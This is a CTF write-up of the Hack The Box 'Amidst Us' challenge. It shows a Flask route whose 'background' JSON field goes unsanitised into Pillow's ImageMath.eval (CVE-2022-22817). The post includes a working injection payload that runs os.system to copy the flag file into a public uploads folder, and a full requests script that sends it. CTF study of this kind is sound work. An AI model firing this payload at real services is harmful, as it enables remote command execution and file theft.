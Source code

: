 ```yaml
---
title:  "HTB CTF - Amidst Us writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


On starting the container and visiting the site you are greeted
with a dark site with a "flash light" effect. Functionality is
limited, you can select a colour, and upload a file.

Inspecting the source there is a route `/api/alphafy` that accepts
some JSON, expected in the following format:

<!-- more -->

```json
{
    "image": "string",
    "background": "array"
}
```

The vulnerability appears to be in the `ImageMath.eval` function
call in `make_alpha`:

```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]
		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
```

[CVE-2022-22817](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901)

There isn't any sanitising on the `"background"` input, so we can
use this for injecting a string into the eval function.

After finding a [valid tiny base64 encoded png](https://stackoverflow.com/a/36610159/7220776)
for the `"image"` input, it was time to craft a payload.

Tesing locally I had

```python
"exec(\"import os; os.system(\'cat ../flag.txt > ./application/static/uploads/flag.txt\');\")"
```

but it was causing the flask process to crash with a seg fault...

I tried my luck on the remote container, and thankfully there was a
restart policy in place, and the container came back up with the flag
where I wanted it.


```python
import requests

TARGET_HOST = "<host>:<port>"

res = requests.post(
    url=f"http://{TARGET_HOST}/api/alphafy",
    headers={
        "Content-Type": "application/json"
    },
    json={
        "image": "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVQYV2NgYAAAAAMAAWgmWQ0AAAAASUVORK5CYII=",
        "background": [
            "exec(\"import os; os.system(\'cat /flag.txt > ./application/static/uploads/flag.txt\');\")", 255, 255]
    }
)
```
